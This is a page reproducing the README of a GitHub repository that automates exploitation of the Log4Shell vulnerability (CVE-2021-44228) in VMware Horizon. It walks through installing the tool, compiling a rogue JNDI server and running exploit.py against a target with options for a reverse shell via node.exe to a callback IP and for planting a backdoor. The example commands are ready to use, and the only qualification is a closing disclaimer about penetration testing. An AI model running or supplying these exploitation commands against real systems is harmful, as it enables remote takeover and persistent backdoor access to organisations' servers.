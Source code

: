 # Log4jHorizon

Exploiting CVE-2021-44228 in VMWare Horizon for remote code execution and more.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/puzzlepeaches](https://github.com/puzzlepeaches) |
| Url      | [https://github.com/puzzlepeaches/Log4jHorizon](https://github.com/puzzlepeaches/Log4jHorizon)                                               |
| Stars    | 104                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# Log4jHorizon

Exploiting CVE-2021-44228 in VMWare Horizon for remote code execution and more.

* [Crossing the Log4j Horizon - A Vulnerability With No Return](https://www.sprocketsecurity.com/blog/crossing-the-log4j-horizon-a-vulnerability-with-no-return)

Code and README.md this time around are a little scatered. Updates coming!

# Why?

Proof of concepts for this vulnerability are scattered and have to be performed manually. This repository automates the exploitation process. See the blog post above for guidance on post-exploitation.

# Install

This repository can be used manually or with Docker.

### Manual install

To download and run the exploit manually, execute the following steps. First, ensure that Java and Maven are installed on your attacker host. To do this using apt on Debian based operating systems, run the following command:

```
apt update && apt install openjdk-11-jre maven
```

Clone the GitHub repository and install all python requirements:

```
git clone --recurse-submodules https://github.com/puzzlepeaches/Log4jHorizon \
    && cd Log4jHorizon && pip3 install -r requirements.txt
```

From the root of the Log4jHorizon repository, compile the Rogue-Jndi project using the command below:

```
mvn package -f utils/rogue-jndi/
```

### Docker install

First, ensure that Docker is installed on your attacking host. (I am not going to walk you through doing this)

Following that, execute the following command to clone the repository and build the Docker image we will be using.

```
git clone --recurse-submodules https://github.com/puzzlepeaches/Log4jHorizon \
    && cd Log4jHorizon && docker build -t Log4jHorizon .
```

To run the container, run a command similar to the following with your command line flags appended. Note that the container will not catch a reverse shell. You need to create a ncat listener in a separate shell session:

```
docker run -it -p 1389:1389 Log4jHorizon \
    -r -t horizon.acme.com -i 192.168.1.1 -p 4444
```


# Usage

```
usage: exploit.py [-h] -t URL -i CALLBACK [-p PORT] [-r] [-b]

optional arguments:
  -h, --help            show this help message and exit
  -t URL, --target URL  VMWare Horizon IP
  -i CALLBACK, --ip CALLBACK
                        Callback IP for payload delivery and reverse shell.
  -p PORT, --port PORT  Callback port for reverse shell.
  -r, --revshell        Module to establish reverse shell using node.exe.
  -b, --backdoor        Module to add backdoor.
```

# Examples

Get a reverse shell using the tool installed on your local system:

```
python3 exploit.py -r -t horizon.acme.com -p 442 -i 192.168.1.1
```

# Disclaimer
This tool is designed for use during penetration testing; usage of this tool for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state, and federal laws. Developers assume no liability and are not responsible for any misuse of this program.




## Get the content

```
git clone https://github.com/puzzlepeaches/Log4jHorizon
cd Log4jHorizon
```

{% embed url="https://github.com/puzzlepeaches/Log4jHorizon" %}

<figure><img src="https://avatars.githubusercontent.com/u/8538866?v=4" alt=""><figcaption><p>puzzlepeaches</p></figcaption></figure>
